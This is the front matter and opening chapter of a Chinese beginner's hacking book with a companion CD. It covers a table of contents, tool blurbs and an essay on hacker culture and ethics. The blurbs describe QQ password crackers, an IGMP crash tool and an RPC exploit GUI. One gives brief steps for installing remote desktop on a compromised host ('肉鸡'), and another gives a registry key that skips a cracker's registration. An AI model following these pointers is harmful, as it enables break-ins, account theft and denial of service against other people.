# 傻瓜黑客2

Hack震撼武器系统 + 黑客系统培训秘籍 + 配套影像  ￥19.00

【本书附随盘赠送】

### 最全面——黑客是怎样造就的

- 黑客大透析
- 黑客是如何进化的
- 世界头号黑客的传奇故事

### 最健全——黑客必备基础知识

- 网络基础知识
- 黑客基础知识

### 可畏点透——杀毒杀素绝技

- QQ攻防
- 炸弹攻击
- 恶作剧
- 安全防护
- 密码破解

### 智慧鼎盛——打造自己的黑客工具

- BC++ Builder打造黑客工具
- VC++ Builder打造黑客工具
- Cygwin环境下打造黑客工具
- Perl编译器打造黑客工具

### 富有韵味——经典漏洞解析

- Windows系统漏洞攻防
- 流行脚本漏洞攻防
- Windows系统提升权限
- Windows后门与木马
- Windows系统日志的清理
- 安全配置Win2000服务器

## AMIR II

## 爱丽丝漫游奇境记 II

近几年来，对黑客技术感兴趣的年轻朋友们越来越多了，各种黑客书籍也纷纷出现。黑客虽很神秘，但书市上真正适合初学者的黑客书籍却是不多，许多读者朋友纷纷抱怨他们买的黑客书籍不是太深奥看不懂，就是太注重理论缺乏实例。

的确，对于一般没有计算机专业知识基础的读者来说，要完全读懂那些理论型的黑客书籍是比较难的。针对这种情况，本书把基本读者群定位于对网络安全有着浓厚兴趣又无从入门的初学者们。语言生动活泼，内容深入浅出，以实例为主。

第一章主要阐述的是黑客的学习成长方法和过程。第二章介绍的是一些最基本的网络和黑客知识。第三章介绍的则是各种“菜鸟黑客们”常使用的攻击方法。第四、五章是本书重点：第四章主要讲述用 BC++、VC++、Cygwin、Perl 等常用编译器来编译网上现成的 exploit 等代码，使新手们简单打造自己的黑客工具；第五章主要内容则是漏洞攻防实战，其内容囊括 Windows 系统所有重要远程溢出漏洞以及动网论坛、SQL 注入等目前最流行的脚本漏洞的攻防。

安装和使用方法，力求通俗易懂，尽量详细，目的是让大家在看完之后马上就能自动手编译出自己的黑客工具来。

书中介绍的每个攻击实例几乎都配了录像，书中涉及到的每一个工具都已收集在配套光盘中，所以可以说这是一本专为新手们打造的黑客入门宝典。但由于我们作者水平有限，时间仓促，书中难免有错误之处，望广大读者朋友给予批评和指正，愿我们与大家在黑客技术的道路上一起前进！

最后还要衷心感谢《黑客X档案》的编辑们，没有他们的支持和帮助就没有这本书！

- 作者的联系方式：
  - 蓝狐狸（Bluefox）
  - QQ：30306456
  - Email：sxlanhu@163.com
  - 绿冰（Greenice）
  - QQ：13865333
  - Email：sy999888@163.com

- 本书答疑网站：
  - 黑客X档案论坛：http://www.hackerxfiles.net/bbs
  - 作者的论坛：http://www.cnxxz.net

## 傻瓜黑客 II

| 项目 | 内容 |
|---|---|
| 出版 | 吉林科学技术出版社 |
| 出品人 | 孙胜利 |
| 主编 | 贾华 |
| 编辑部主任 | 孙志强 |
| 编辑部 | Zero、黑裤子、土豆、呆呆虫、小木头、楚汉 |
| 特约编辑 | Python、射手、雪莲瑶、ICEYES、小刘 |
| 光盘监制 | 刘佳（主任）、姜连成 |
| 美编 | 何有骏、Bifrost |
| 排版 | 何有骏 |
| E-mail | hackerxfiles@263.net |
| 邮购查询E-mail | chaxunx@263.net |
| 邮购查询电话 | (010)-88560080 |
| 联系电话 | (010)-88561473、88561472 |
| 联系人 | 赵昕、小邵 |
| 邮编 | 100037 |
| 定价 | 19.00元（光盘+手册） |
| 声明 | 书中所载文字及图片版权所属，未经许可不得转载；文章内容仅代表作者观点，与本书立场无关。 |

## 目录

## 第一章 识剑江湖——黑客是如何进化的

### 第一节 黑客大透析 ...... 10
### 第二节 黑客是如何进化的 ...... 13
### 第三节 世界头号黑客的传奇故事 ...... 15

## 第二章 进化心经——黑客必备基础知识

### 第一节 网络基础知识 ...... 19

- 一、什么是网络 ...... 19
- 二、网络结构和协议 ...... 19
- 三、常见网络设备 ...... 20
- 四、IP地址 ...... 21
- 五、域名和域名系统 ...... 22
- 六、常见网络操作系统 ...... 23
- 七、常见Internet服务 ...... 24
- 八、常用端口（常用端口一览表见附录一） ...... 24
- 九、常用网络命令 ...... 25
- 十、代理服务器 ...... 26

### 第二节 黑客基础知识 ...... 28

- 一、黑客常见攻击步骤 ...... 28
- 二、黑客常用攻击方法 ...... 29
- 三、黑客常用工具 ...... 32

## 第三章 刀光剑影——菜鸟必杀绝技

### 第一节 QQ攻防 ...... 40

- 一、QQ密码窃取 ...... 40
- 二、QQ攻击工具 ...... 42
- 三、QQ奇技淫巧 ...... 44
- 四、QQ安全防御 ...... 46

### 第二节 炸弹攻击 ...... 48

- 一、E-mail炸弹 ...... 48
- 二、IP炸弹 ...... 49
- 三、手机短信炸弹 ...... 53
- 四、网页炸弹 ...... 54

### 第三节 密码破解 ...... 58

- 一、CMOS密码破解 ...... 58
- 二、破解Win 2000/XP管理员密码 ...... 59
- 三、破解Linux超级用户密码 ...... 60
- 四、常用密码破解 ...... 61

### 第四节 恶作剧 ...... 64

- 一、恶作剧三式 ...... 64
- 二、恶作剧程序 ...... 66
- 三、局域网攻击 ...... 69
- 四、揭露绝技 ...... 72

### 第五节 安全防护 ...... 75

- 一、自我安全防护 ...... 75
- 二、天网使用详解 ...... 77

## 第四章 将恶出世——打造自己的黑客工具

### 第一节 BC++ Builder打造黑客工具 ...... 81

- 一、安装和配置 ...... 81
- 二、编译实战 ...... 83

### 第二节 VC++ Builder打造黑客工具 ...... 88

- 一、安装和配置 ...... 88
- 二、编译实战 ...... 89

### 第三节 Cygwin环境下打造黑客工具 ...... 93

- 一、安装Cygwin ...... 93
- 二、编译实战 ...... 94

### 第四节 Perl编译器打造黑客工具 ...... 97

- 一、安装Perl解释器 ...... 97
- 二、执行Perl代码 ...... 98
- 三、安装exe编译工具 ...... 98
- 四、编译实战 ...... 99

## 第五章 补洞彻底——经典漏洞攻防

### 第一节 Windows系统漏洞攻防 ...... 102

- 一、Windows 98漏洞攻防 ...... 102
  1. NETBIOS信息泄露漏洞（录像） ...... 103
  2. 共享密码校验漏洞攻防（录像） ...... 104
  3. IGMP拒绝服务攻击漏洞（录像） ...... 104
  4. ICMP拒绝服务攻击漏洞（录像） ...... 105
  5. CON\CON死机漏洞（录像） ...... 105
  6. IE代码格式化本地磁盘漏洞（录像） ...... 106
  7. 错误的MIME头漏洞（录像） ...... 107

- 二、Windows 2000服务器漏洞攻防 ...... 109
  1. IPC连接漏洞攻防（录像） ...... 109
  2. 默认共享漏洞攻防（录像） ...... 113
  3. 简体中文输入法漏洞攻防（录像） ...... 114
  4. Unicode漏洞攻防（录像） ...... 117
  5. 二次解码漏洞攻防 ...... 120
  6. FrontPage扩展服务漏洞攻防（录像） ...... 121
  7. printer远程溢出漏洞攻防（录像） ...... 126
  8. idq$ida远程溢出漏洞攻防（录像） ...... 129
  9. asp映射分块编码漏洞攻防（录像） ...... 132
  10. MSSQL弱口令攻防（录像） ...... 134
  11. MSSQL Resolution溢出漏洞攻防（录像） ...... 136
  12. Locator服务远程溢出漏洞攻防（录像） ...... 139
  13. WebDAV远程溢出漏洞攻防（录像） ...... 141
  14. Media nsiislog.dll远程溢出漏洞攻防（录像） ...... 143
  15. DCOM RPC远程溢出漏洞攻防（录像） ...... 145
  16. DCOM long filename堆溢出漏洞 ...... 148
  17. Messenger服务远程溢出漏洞攻防 ...... 151
  18. Workstation服务远程溢出漏洞攻防 ...... 153
  19. 终端服务漏洞攻防 ...... 155

### 第二节 流行脚本漏洞攻防 ...... 159

- 一、脚本漏洞攻防概述 ...... 159
- 二、SQL注入攻击 ...... 160
- 三、动网论坛漏洞攻击实例（录像） ...... 163
- 四、其它论坛漏洞实战（录像） ...... 171
- 五、紫桐论坛漏洞利用攻击 ...... 174
- 六、防范脚本漏洞攻击 ...... 175

### 第三节 Windows系统提升权限 ...... 177

- 1. SAM密码破解法（录像） ...... 177
- 2. 木马陷阱法 ...... 178
- 3. 常用权限提升工具（录像） ...... 179

### 第四节 Windows后门与木马 ...... 182

- 一、Windows系统常见后门 ...... 182
- 二、常见后门隐藏及欺骗技术 ...... 186
- 三、检测后门的基本措施（录像） ...... 188

### 第五节 Windows系统日志的清理 ...... 190

- 一、Windows日志简介 ...... 190
- 二、手工清除Windows日志（录像） ...... 192
- 三、常用日志清除工具（录像） ...... 193

### 第六节 安全配置Win2000服务器 ...... 195

- 一、物理安全 ...... 195
- 二、安装注意 ...... 195
- 三、帐号安全 ...... 196
- 四、密码安全 ...... 196
- 五、关闭IPC空连接和默认共享 ...... 197
- 六、关闭不需要的服务 ...... 197
- 七、关闭不必要的端口 ...... 198
- 八、目录和文件权限安全设置 ...... 198
- 九、设置安全策略 ...... 199
- 十、IIS安全配置 ...... 199
- 十一、其它措施 ...... 200

## 附录

- 附录一 常见端口对照表 ...... 202
- 附录二 NET命令详表 ...... 203

## 配套工具简介

### SHED共享扫描器

用来扫描NT、2000下的共享，很快，也很小。

### 乱刀特别版

可以说是一个破解UNIX的PASSWD文件密码的最好工具，具有最多可以启动10个线程来进行解码；不必产生字典文件；32位的核心DES算法。在注册表中 HKEY_LOCAL_MACHINE\SOFTWARE\Banyet\ 下建个主键 Blade125SE 就不用填注册表格了！

### 粉色信鸽

主要用于远程文件管理、远程注册表管理、进程管理，支持局域网内动态IP、Internet动态IP（需FTP支持）。

### Sniffer Pro

NAI公司出品的可能是目前最好的网络协议分析软件之一，支持各种平台，性能优越。作为一名合格的网络管理员，肯定需要有这么一套好的网络协议分析软件。

### QQ梦想

QQ密码远程破解软件，采用多线程方式进行探测。此版在原有的基础上改进了声音处理，使声音提示更专业化。

### 天空爱QQ密码探索者

QQ密码在线多线程破解，支持无限字典。软件作者已经在软件说明中提到，这次软件升级是更改了接口，这个新修改的接口已经是腾讯目前能找到的最后一个接口。

### QQ永远在线修改器

让你的QQ看起来好像永远在线。使用后，当你的QQ下线或隐身，而QQ头像在别人QQ好友里却是亮的、在线的；而当你的QQ在线时，QQ头像在别人QQ好友里是暗的、显示不在线的，正好和QQ设计相反。

### QQ皮肤自己做

你想讨好朋友么？用她的照片做一套QQ皮肤，送给她！你想标榜自己与众不同的个性么？先让你的QQ与众不同！强大的图形编辑能力，方便的操作方式，让您在几分钟之内制作出一套完全个性化的皮肤。

### QQ消息病毒专杀工具

QQ消息病毒的特征非常类似于“爱情森林”。病毒激活后，会自动向QQ里的好友发消息，消息内容通常是某些网站的主页地址（URL）。用户点击QQ消息中的链接，进入相应网站，就可能中毒。

### UDP Flooder

UDPFlood是UDP包发送工具。它可以发送UDP包到指定的IP和端口。发送方式有随机、自定义文本和从文件载入。用来测试服务器和UDP包攻击。

### Tigers

国产傻瓜式攻击工具。本软件利用IGMP协议攻击目标计算机，轻则使对方无法登录网络，重则导致系统崩溃，可调节攻击力度，支持多线程攻击。

### Borland C++ Builder

它是用来优化BC开发系统的工具。它包括最新版的ANSI/ISO C++语言支持，包括RTL、C++的STL框架结构支持。

### Perl 编译器

Perl语言是一门古老的语言，Perl是英文 Practical Extraction and Report Language 的缩写。Perl最早用于UNIX环境下的编程，后来被移植到了Windows平台上。

### MIME漏洞网页生成器

一个是MIME漏洞程序捆绑器（可以将木马捆绑到网页中）。

### Win2K默认共享自动删除脚本

删除Win2K默认共享的批处理。

### RangeScan

本软件用于扫描一定范围的网段内存在特定CGI 程序的主机。

### RPC Exploit GUI

当你尝试使用这个版本的 RPC Exploit 去“hack”别人的 2000/XP/2003 主机的时候，常用的 FTP 服务端和端口扫描器就在你的手边。

### 防 RPC 病毒安全策略包

本策略包禁止了任何远程 IP 对您机器的 135 端口、139 端口、445 端口、ICMP 端口的连接，这样有效地防止了任何变种冲击波病毒的攻击。

### MSDcomScanner

微软最新推出的扫描 RPC DCOM 漏洞修补情况的工具。该工具在命令提示下使用，包含对 MS03-039 和 MS03-026 的检测。

### 3389 自动安装程序

用你的随便什么办法把解压出来的 djxyxs.exe 上传到肉鸡的 c:\winnt\temp 下，然后进入 c:\winnt\temp 目录执行 djxyxs.exe 解压缩文件，然后再执行解压缩出来的 azzd.exe 文件，等一会肉鸡会自动重启！重启后会出现终端服务！

- idq.ida 远程溢出漏洞演示
- ASP 映射分块编码远程溢出
- Med-nsiislog.dll 远程溢出
- MS SQL 弱口令攻防录像
- Printer 远程溢出漏洞攻防
- RPC Locator 远程溢出演示
- WebDAV 远程溢出漏洞演示
- 简体中文输入法漏洞演示
- bbsxp 漏洞入侵
- Cookie 欺骗攻击
- Dvbbs tongji.asp 漏洞攻击
- 动网 logout.asp 漏洞攻击
- SQL 注入完全篇
- ndde.exe 提升权限演示录像
- 暴力破解 sam 文件演示录像
- 用 aport 检查可疑程序及端口
- 清除安全日志
- 简单不死账号的制作

### 本站配置系统

- MailHack 400C 动画的破解
- “永远在线”的 QQ
- QQ 透明人制作
- 不用工具看 QQ 聊天记录
- 盗取 QQ
- 用 socks 代理上 QQ
- 手机短消息攻击
- CMOS 密码读取软件
- Foxmail 访问口令破解
- 破解 Office 文档口令
- 破解 win2000&XP 拨号密码
- 聊天室刷屏
- bc++ compiler 的安装
- Visual C++ 的使用1
- Cygwin 下 Gcc 的使用
- IE 代码格式化本地磁盘演示

## 动画首发

### 迷乡

作品充满感情，多彩而富有乡情的画面让人心动不已。情节设计带有对家乡浓厚的眷恋，极煽情。

### 禽流感

当“非典”袭击它们时，我们是否无动于衷？这个动画即是从鸡的角度的思考。

### 明年今日之青涩物语

“此刻，我们微笑、幸福或惆怅；明年今日，回想起这一刻，真的真的，不禁泪流满面……”

### 猴年猴趣

超强的猴子，连老虎都敢欺负，最后可怜的老虎被玩乏了。

### 《海盗》

大手笔斥资 300 万拍摄，媲美电影《神鬼奇航》豪华场景的 MTV，这就是由周杰伦为小天后蔡依林创作的《海盗》，赶快看看吧，错过是你的损失哦 :)

## 武道狂之诗

### 第一卷

黑客是如何进化的


## 第一章 识别江湖

### 黑客是如何进化的

#### 网络一种思潮大透析

> “……我知道我有能力改变世界。任何地方都有人使用我改变或创造的信息，它在改变着一些事情，我有能力改变世界。”——摘自《侵袭者》

黑客，这是一个能在网络世界中无所不能的名字！这是一个被众多媒体神化了的名字！这是一个许多年青人梦寐以求的名字！黑客到底是什么？是发现系统漏洞、促进网络安全、行侠于数字世界的电脑天才和网络精英，还是攻入系统、毁人数据、窃人机密的电脑败类和网络大盗。黑客的精神动力是什么？黑客又是从何而来，他们的归宿又将是什么？黑客在网络中的生存状态又是怎样的？人们是如何看待黑客的？本书采集网上流传一些经典性的观点，结合了大量资料及作者感受，整理出了一篇较为完整的关于黑客的文章，以此献给所有关注黑客的朋友们，可谓是“集百家之见而成一家之言”。当然文中不少纯属个人之见，若不赞同，可以一笑嗤之。

他们才华横溢，行为孤僻，沉湎于技术和计算机，视工作为一种艺术。像现在的操作系统——Linux 系统就是由一大群黑客们共同完成的。但近几年来，随着计算机攻击入侵事件和犯罪事件的大量出现，黑客的含义已发生变化，更多人把它当作了网络入侵者的代名词。

黑客产生的原因：黑客是信息时代的副产物，是互联网的伴生物，在现有时代特征下只要互联网还存在，黑客就不可能消失。从根本上说，黑客的出现是由于互联网自身的矛盾。一方面，互联网的精神是自由和共享。共享应该是无限的，网络上的一切都应该是开放的，互联网的发展初衷便在于此。但另一方面，现实的互联网秩序却日益与互联网精神相违背，从技术到资源都不公开，拒绝共享，甚至有一系列密码的保护以及防火墙的阻挡。黑客从某种意义上讲就是这对矛盾的产物，是互联网精神的维护者。


#### 黑客的源起

“黑客”（hacker）的源起于 20 世纪 50 年代麻省理工学院的实验室，那时“黑客”并不指入侵计算机系统的人。当时的黑客被赋予褒义，是指那些精力充沛、非常聪明并富有创造力、热衷于解决难题的程序员和设计人员，他们信奉“通往电脑的路不止一条，所有信息应当是免费的，打破电脑极权，在电脑上创造艺术和美”等理念，他们运用自己的智慧挑战网络垄断，力图维护自由的网络世界。其次，互联网设计之初只是考虑其开放性、互联性，而忽略了整体的安全性，加之各种信息系统的技术漏洞更使得网络安全问题危机重重。这也为黑客的产生提供了可能性。



## 试问不测：黑客是如何进化的

对世界、社会、互联网的理解怪异；他们对问题喜欢“打破沙锅问到底”，喜欢“迎难而上”，喜欢挖掘自己的潜力；他们不仅是技术高手，还往往是工作狂，为了解决一个技术难题常常可以不吃不睡地连续工作好几十个小时。正是有了这种精神特征，黑客才能不断地在互联网里创造神话，而这些神话其实靠的也是“百分之一的灵感加百分之九十九的辛勤和汗水！”

#### 黑客的界定

进入 20 世纪八九十年代，黑客的含义开始发生了变化，加之网络犯罪事件的增加以及一些媒体的搅和，时至今日，对黑客的界定众说纷纭，许多人把黑客与入侵者等计算机犯罪分子混淆在一起，人们往往在错误地运用“黑客”这个词来表达“入侵者”。其实黑客与计算机犯罪分子还是有着本质上的不同，就像研究开锁技术的专家与利用开锁技术去盗窃的盗贼当然是两种截然不同的人。同样，真正的黑客研究和探索不是为了进行破坏和攻击，笔者认为“黑客”应该是指对任何技术的奥妙都有着强烈兴趣的人，他们大都是优秀的程序员，对各种操作系统和网络结构有着深刻了解；他们知道多种系统漏洞的所在及其原因；他们不断追求更深的知识，并公开他们的发现，与其他人共享，以促进网络安全技术的完善和发展。至于那些完全违背了黑客的基本传统，完全以个人利益为中心，利用自己的电脑技术在网络上从事非法活动，专门破坏他人数据、攻击他人系统、窃取商业机密、盗用他人电话和金融账号的网络犯罪分子，笔者认为不应该归于黑客之类，这些人更没有什么黑客文化可谈。对他们的研究应该是犯罪学专家和犯罪心理学家的课题。但是黑客与计算机犯罪分子其实只是一念之差，不少黑客在名利的诱惑和驱使下渐渐滑向犯罪的深渊，这是黑客们应该警钟长鸣的。

#### 黑客的道德守则

黑客的道德取向是非常重要的，它往往决定着一个黑客的前途和命运。如果一开始学习的目的就是为了扬名或非法获利，那他就不可能成为真正的黑客。但是虚拟的网络世界本就无法用现实的规范来管理，黑客又是这个虚拟的世界中最渴望个性和自由的一族。虽然网上流传的黑客道德守则有很多，不少黑客组织也纷纷制定出各种章程，但这些所谓的道德守则往往成为一纸空文，黑客们真正崇奉的是来自他们内心真诚的道德，而不是人为的外在的行为准则。也只有这些来自于黑客们内心深处的道德才能真正约束得了黑客。当然网上流传的一些黑客守则也并不是完全没有道理，一些黑客前辈提出的黑客守则，有许多地方还是值得我们一看，比如：爱国，远离政治与权力斗争；同情弱者，站在任何形式霸权的对立面；低调，克制自我表现的欲望等等……

#### 黑客的追求及特征

黑客是独特的，他们的动力来源于他们对技术浓烈的兴趣，他们执着于技术，追求技术永远是黑客的第一目标；他们追求自由，寻求在虚拟信息世界更大的生存空间和更高的权限；他们提倡开放，致力于信息高度共享。计算机和网络是他们的生命；他们善于独立思考，喜欢自由探索，要求打破一切羁绊和枷锁；他们痴迷于技术而不谙世俗常规，想法狂热、新奇，有着强烈的好奇心。

#### 黑客的组成群体

进入 21 世纪的今天，黑客已不再是少数现象，黑客已经发展成为互联网上的一个独特族群。他们有着与常人不同的理想和追求，有着他们独特的行为模式，甚至一些“志同道合”的年轻人组织起了一个个黑客组织，进行各种交流和研究活动。但这么多黑客从何而来？他们在现实世界里到底是些什么人？


## 黑客是如何进化的

其实除了少数职业黑客外，大多数黑客都是业余的，而且在网络世界里黑客也许是无所不能的，但在现实生活中他们和平常人没什么两样，甚至黑客可能就是住在你家隔壁的那位高中生。这不是夸张，调查显示：组成黑客的主要群体是 18—35 岁之间的年轻人（其中男性人数又远远大于女性），特别是一些大专院校的学生，因为他们有着较强的计算机能力和似乎永远也用不完的时间，他们精力旺盛，好奇心强，喜欢炫耀自己的能力，显示自己的不同。这些青年人是黑客永远的主力军。不过近年来，黑客也出现了“低龄化倾向”，一些十六七岁的“孩子”纷纷闯入一些层层设防、固若金汤的信息系统，让一些世界级安全专家大跌眼镜。除此之外，组成黑客群体的主要还有：信息公司等相关行业的职员、资深的专业人员、计算机安全研究人员、职业间谍等等。这些人的水平当然是“黑客娃娃们”无法比的，但这些人也是从“黑客娃娃”一步步走来的。

也有对他们的黑客事业执着一生、乐此不疲的狂热黑客。黑客“退隐江湖”后，除一部分可能会跻身安全行业，成为安全工作者、反黑客专家，继续潜心钻研技术，而绝大多数黑客则是专心一致于自己的事业，他们可以是优秀的程序员、系统管理员，甚至从事与计算机无关的职员、商人等任何职业。

#### 黑客存在的意义

黑客在当今社会中的影响从媒体对其关注的程度便可见一斑。虽然媒体往往关注的是些超级黑客事件，而且报道往往失实，不是神化就是丑化。但在计算机技术和网络技术深入到社会各个领域、人们对信息网络依赖程度越来越大的今天，能影响甚至左右互联网发展的黑客的作用的确是巨大的。谈论到黑客的影响是好是坏时，人们便可能会联想到许多媒体报道的黑客攻击事件、金融窃取案件、病毒蠕虫制造事件等等。其实这些不是真正黑客，我们前面说了称他们“网络犯罪分子”更确切。其实黑客正在越来越多地保护网络空间，使其免受非法闯入者和恐怖分子的袭击。正如一位黑客所言：“黑客热爱电脑，他们希望电脑空间平安无事”。真正的黑客们的大部分工作是探索系统的漏洞，并进行测试和公布，而不是研究如何用这些漏洞去攻击和破坏；其实黑客的存在意义就是技术的监督。“权力失去监督就会腐败”，同样，技术失去了监督也必然会漏洞百出。腐败的权力，不可能搞好国家，漏洞百出的技术也不可能把人类带入真正的信息时代。而今天的网络，除了黑客，还有谁会对高科技的互联网安全进行长期坚持不懈、不留情面的监督？黑客们的一个个发现给技术专家们警示和启示，有助于他们克服并健全互联网的技术。微软公布的众多系统漏洞中，大部分都是黑客们发现后微软公司才推出补丁程序的。所以从某种意义上来说，黑客就是互联网技术的监督者。

#### 黑客的归宿

在前面我们提到黑客组成的主要群体是年轻人，事实上也是如此，在网络上活跃着的很难见到四、五十岁的“老”黑客，许多黑客一过“而立之年”，便慢慢地在网络上销声匿迹了。有人不禁发问，这些曾经的黑客都去哪里了，他们为什么要离开？其实不难理解：随着年龄的增长、心智的成熟，年轻人的好奇心逐渐离开了他们，他们开始从冲动期转入稳重期；生理上的体力和精力也开始下降，不再像以前一样从来不知道什么叫“累”。同时他们也有了家庭的负担，需要为生计和事业奔波。而黑客这一行业，除了少数职业黑客外，绝大多数黑客都是业余的，也就是说他们当黑客花大量时间一般都是没有报酬的。所以大多数黑客一上年纪后便“退隐江湖”也是理所当然的。当然这只是针对一般情况而言。


### 第二节 黑客是如何进化的

前面我们介绍了一些关于黑客的基本观点，这里我们将继续介绍黑客的基本技能应该包括哪些、新手如何才能进化为黑客、应该如何学习成长及交流等问题。

#### 黑客的基本技能

计算机种类众多且博大精深，黑客虽然是其中的精英，但也不可能样样精通。事实上黑客们所擅长的技术是不同的，有的擅长密码技术和加密技术，有的致力于研究和发现系统漏洞，有的具有极强的编程能力，喜欢开发一些黑客工具。但尽管如此，要成为以上黑客还是必须具备一些基本素质，这些基本技能包括：

- 1. 能用 C、C++、Perl 等多种语言进行编程。编程是黑客最基本的技术。许多安全工具都用这些语言编写，至少应能正确理解、编译和执行这些程序。应多阅读他人代码，再尝试吸收和改进，最后独立编写程序。此外，最好还能使用 Unix shell、HTML 等，并具备跨平台移植工具的能力。
- 2. 对网络结构和服务及 TCP/IP 协议有透彻了解。熟悉 Internet 工作原理和常用服务，精通 TCP/IP 等标准协议，能读懂 IP 等数据包报文。除理论外，还需丰富网络实践经验，经常接触 Internet。
- 3. 对各种操作系统有较深入了解，掌握其工作方式和流程。特别是 Unix、Linux，可获得内核源代码并进行阅读和修改，这些经验有助于从微软 Windows 平台之外学习到更多内容。
- 4. 对各种系统漏洞了如指掌。不但应知道漏洞所在及其影响，还必须知道漏洞产生原因和补救方法。官方公开资料往往不够详细，通常只谈危害和补救，深入资料可参考国外安全站点并长期积累。


- 5. 如果你想成为最顶级的黑客，还必须掌握其它相关知识，比如密码学、计算机硬件、无线通信等一切与计算机有关的知识。

#### 黑客的进化过程

黑客的学习道路是漫长的。黑客的成长过程艰辛甚至痛苦，从来没有天生的黑客，也没有专门培训黑客的“黑客大学”。几乎所有黑客都是通过长期自学和摸索而成的，不可能仅靠听几节课就成为黑客。

- **网页：**网页是学习黑客技术的主要途径。世界上有大量黑客站点，资料丰富，包含漏洞资料等技术内容。通过 Internet 搜索相关关键词可找到许多资源。  
  国内相关站点较少，资料也不多，而且大多是适合新手的初步资料。如果你想要更好地利用 Internet，最好多访问些国外的黑客站点，当然外语要尽快学好。
- **IRC：**IRC 等聊天室中许多关于黑客的频道也是学习途径之一。如果有时间你常去这些地方看看是有不少好处的。不过在 IRC 一般不会有什么循序渐进的黑客培训课，当然也有黑客组织因发展需要培训成员而在 IRC 开设辅导班，这对新手来说或许是个不错的机会，但这往往需要加入该组织的“频道钥匙”才行。可能你会发觉这些地方的黑客们非常冷漠，特别是对初学者的问题往往是一问三不知。毕竟在 IRC 里解释清楚一个技术问题是件非常费力的事情，而且大多数黑客来聊天室的目的只是相互之间交流，而不是来做辅导工作的。当然如果你一旦与某位资深黑客建立了交情，那对你的帮助是巨大的，他会提供许多工具和建议，甚至辅导你。
- **BBS 和 Email：**如果你在学习过程中遇到了实在无法自己解决的问题，也没有熟识的朋友可以询问，那么你可以试着去些论坛发帖子或向某位黑客发电子邮件求助，不过你最好多发几份，因为这些问题被回答的几率不会很高。同时，去一些著名的安全论坛看看别人对一些问题的讨论也是有不少裨益的。
- **书籍：**基础知识是可以去图书馆的书籍中学到的，黑客技术的书就没这么容易找了。虽然近年来黑客书籍开始出现了，但是书市上介绍真正黑客技术的书籍还是比较少的，一些黑客组织发行的刊物由于种种原因也不可能大面积流传。但是市场上与网络安全相关的书籍却不少，安全技术与黑客技术本就是一对矛盾，学习这些安全技术的书籍也能学到黑客技术。

很多工具也往往是“借”来的，当然也有人总喜欢独来独往，就像一匹孤独的狼，既不愿意帮助别人，也不愿意接受别人的帮助。黑客交流的具体内容主要包括以下三个方面：

- 1. **技术的交流。**技术交流是黑客们交流最多的内容，也是许多黑客组织形成的主要目的。黑客们虽然是解决问题的技术高手，但也会有遇上无法解决的困难，他们之间大多会经常在一起讨论一些技术问题，并一起进行测试和分析，然后公布他们的发现。
- 2. **资源的交流。**黑客们交流的资源包括：共享系统、研究资料、FTP 仓库、Web 空间等等。比如某个黑客在某处发现了一个很好的系统，它没有入侵检测和系统审计，他们就会把这个系统当作俱乐部，经常在那里聚会，在该系统上隐藏各种工具和资料，与熟识的黑客共享，把它作为 FTP 仓库。他们不会破坏该系统，也不会从该系统攻击别的系统，甚至会保护该系统防止别的黑客到来。
- 3. **工具的交流。**黑客的工作是繁重的，所有工作全靠手工完成的话是很累的，许多工作都要借助一些工具。事实上黑客都有一个全面的工具集。当然这么多黑客工具不可能是一个人开发完成，许多黑客工具都是交流得来的。一般的黑客工具可以在 Internet 大大小小不计其数的黑客网站下载到。不过这些能免费下载得到的虽然也会有些经典的超级工具，但大多数先进的重量级工具不是那么容易得到的，它们往往只流传于某些组织内部，需要交换才能得到。

这是黑客真正的成长过程，没有谁能一下子就成为黑客，那种黑客神话只存在于电影或小说中。只有不断地学习、不断地努力，你才会有一天忽然回首发现自己已经进入了黑客这个圈子，有了许多同类的朋友！

#### 黑客的联系和交流

黑客中大多数人喜欢与别人有联系，一起交流经验、探讨一些问题，互为支持体系甚至组成组织，保持社团感。黑客之间的联系和交流依赖于 IRC、电子邮件、语音信箱、电话会议等联络工具进行，而且黑客们为了掩盖形迹、防止追踪，这些联络工具也往往是“借”来的。


### 第三节 世界头号黑客的传奇故事

